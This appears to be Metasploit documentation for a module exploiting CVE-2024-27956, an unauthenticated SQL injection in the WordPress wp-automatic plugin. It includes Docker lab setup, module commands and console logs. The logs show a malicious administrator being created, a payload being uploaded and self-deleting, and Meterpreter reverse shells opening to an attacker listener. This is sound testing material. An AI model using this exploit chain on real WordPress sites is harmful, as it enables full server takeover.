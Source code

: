 ## Vulnerable Application

The vulnerability affects the **wp-automatic** plugin, version **3.92.0** and
below, allowing unauthenticated SQL injection that can be leveraged to create a
malicious administrator and gain full control of the WordPress instance.

### Pre-requisites:
- **Docker** and **Docker Compose** installed on your system.

### Setup Instructions:

1. **Download the Docker Compose file**:
   - Below is the content of the **docker-compose.yml** file to set up WordPress
     with the vulnerable wp-automatic plugin and a MySQL database.

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

2. **Add custom PHP configuration** (for plugin uploads):
   - Create a file named `custom.ini` in the same directory as `docker-compose.yml` with the following content:

```bash
upload_max_filesize = 64M
post_max_size = 64M
```

This increases the file size limits for uploading large plugins.

3. **Start the Docker environment**:
   - In the directory where you saved the `docker-compose.yml` file, run the following command to start the services:

```bash
docker-compose up -d
```

4. **Install wp-automatic Plugin**:
   - Download the vulnerable version of wp-automatic:

```bash
wget https://github.com/ThatNotEasy/CVE-2024-27956/raw/refs/heads/main/wp-automatic.zip
```

   - Install the plugin in your running WordPress instance:
     - Extract the plugin files and copy them to your WordPress container:

```bash
unzip wp-automatic.zip
docker cp wp-automatic wordpress:/var/www/html/wp-content/plugins/
```

   - Navigate to `http://localhost:5555/wp-admin` in your browser and activate the **wp-automatic** plugin in the WordPress admin panel.

## Verification Steps

1. **Set up WordPress** with the vulnerable **wp-automatic** plugin.
2. **Start Metasploit** using the command `msfconsole`.
3. Use the correct module for the vulnerability:

```bash
use exploit/multi/http/wp_automatic_sqli_to_rce
```

4. Set the target's IP and URI:

```bash
set RHOSTS <target_ip>
set TARGETURI /
```

5. **Run the module**:

```bash
run
```

6. **Verify the SQL Injection**:
   - After running the module, the SQL injection payload will attempt to create a new administrator in the WordPress database.

## Options

### USERNAME
The username to create for the malicious administrator. If not set, a random username will be generated using Faker.

### PASSWORD
The password for the malicious administrator. If not set, a random password will be generated using Faker.

### EMAIL
The email address for the malicious administrator. If not set, a random email will be generated using Faker.

## Scenarios

The following scenario demonstrates an SQL injection attack against a WordPress
installation running **wp-automatic <= 3.92.0** on a Docker environment with MySQL.

### Step-by-step Scenario

1. **PHP Meterpreter (ARCH_PHP) (php/meterpreter/reverse_tcp)**:

```bash
msf6 exploit(multi/http/wp_automatic_sqli_to_rce) > options 

Module options (exploit/multi/http/wp_automatic_sqli_to_rce):

   Name       Current Setting          Required  Description
   ----       ---------------          --------  -----------
   EMAIL      hyman_wunsch@koepp.test  no        Email for the new user
   PASSWORD   wO4VlSc0uuee4C1H         no        Password for the new user
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                              yes       The target host(s), see https://docs.metasploit.com/docs/using-metaspl
                                                 oit/basics/using-metasploit.html
   RPORT      80                       yes       The target port (TCP)
   SSL        false                    no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                        yes       The base path to the wordpress application
   USERNAME   roland                   no        Username to create
   VHOST                               no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_automatic_sqli_to_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting SQLi test to verify vulnerability...
[+] Target is vulnerable to SQLi!
[+] The target appears to be vulnerable.
[*] Starting the process to identify the table prefix...
[*] Executing SQLi to retrieve the table prefix for users table containing 'user_login' and 'user_pass' columns...
[+] Successfully detected table prefix: wp_
[+] roland is now an administrator!
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/Stim/sensor.php...
[*] Sending stage (39927 bytes) to 172.18.0.3
[+] Deleted sensor.php
[+] Deleted Stim.php
[+] Deleted ../Stim
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.18.0.3:45388) at 2024-09-22 14:05:33 +0200

meterpreter > sysinfo 
Computer    : bfc25b6dcc8b
OS          : Linux bfc25b6dcc8b 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > 
```

2. **Linux Command Shell (ARCH_CMD) (cmd/linux/http/x64/meterpreter/reverse_tcp)**:

```bash
msf6 exploit(multi/http/wp_automatic_sqli_to_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting SQLi test to verify vulnerability...
[+] Target is vulnerable to SQLi!
[+] The target appears to be vulnerable.
[*] Starting the process to identify the table prefix...
[*] Executing SQLi to retrieve the table prefix for users table containing 'user_login' and 'user_pass' columns...
[+] Successfully detected table prefix: wp_
[+] roland is now an administrator!
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/fixflex/driver.php...
[*] Sending stage (3045380 bytes) to 172.18.0.3
[+] Deleted driver.php
[+] Deleted fixflex.php
[+] Deleted ../fixflex
[*] Meterpreter session 8 opened (192.168.1.36:4444 -> 172.18.0.3:47934) at 2024-09-22 15:52:42 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 12.5 (Linux 5.15.0-121-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
